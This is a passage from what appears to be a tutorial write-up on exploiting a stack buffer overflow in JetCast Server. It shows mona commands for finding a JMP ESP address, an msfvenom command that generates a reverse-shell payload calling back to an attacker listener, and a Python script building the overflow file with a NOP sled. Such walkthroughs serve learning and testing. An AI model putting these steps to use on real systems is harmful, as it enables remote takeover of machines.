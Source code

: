 We can also narrow our search by looking in specific modules. For instance, if we want to only search loaded modules with no security features enabled, we can use
```
!mona modules
```
to receive a list of all loaded modules for the program, find one that suits our needs, and then use a command such as:
```
!mona find -s "\xff\xe4" -m "C:\Program Files\JetCast Server\MSVCP60.dll"
```
(The module listed above is an example. It is the module that the JMP ESP address we will use is located in).

## Generating shellcode
Now that we have verified we can control the EIP and ESP registers, we can move onto generating shellcode. There are quite a number of ways to do this, but I used msfvenom to do so:
```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.2.2.5 LPORT=4444 -b "\x00\x0d" -f py -v shellcode
```
Breakdown:
- -p windows/shell_reverse_tcp: will use this as the payload
- LHOST=10.2.2.5: the IP address of the attacking/listening machine to catch the reverse shell
- LPORT=4444: the port the attacking/listening machine will use
- -b "\x00\x0d": will tell msfvenom to encode the shellcode in such a way that these characters will not be used since they are bad characters
- -f py: will format the output for Python
- -v shellcode: will set the variable name to "shellcode"

After msfvenom generates the shellcode, we can copy and paste it into our code where the ESP variable was.

However, it is also good practice to prepend the shellcode with NOP instructions. This will allow the shellcode to still execute in the event that our shellcode doesn't begin at exactly where we want it to for some reason. The NOP (No Operation)instructions will tell the program to simply move to the next instruction. This can be important because if the program were to shift our shellcode off by one byte, then it would not work. Realistically, in this situation, we are probably fine without a NOP sled, but it is good practice and would be needed in other situations.

Our code should now look like:
```
offset = "A" * 532
eip = "\x55\x9d\xef\x77"
nopSled = "\x90" * 8

shellcode = ...

payload = offset + eip + nopSled + shellcode

f = open('exploit.txt', 'w')
f.write(payload)
f.close()
```
Once more, run the script and transfer the output file over to Windows.
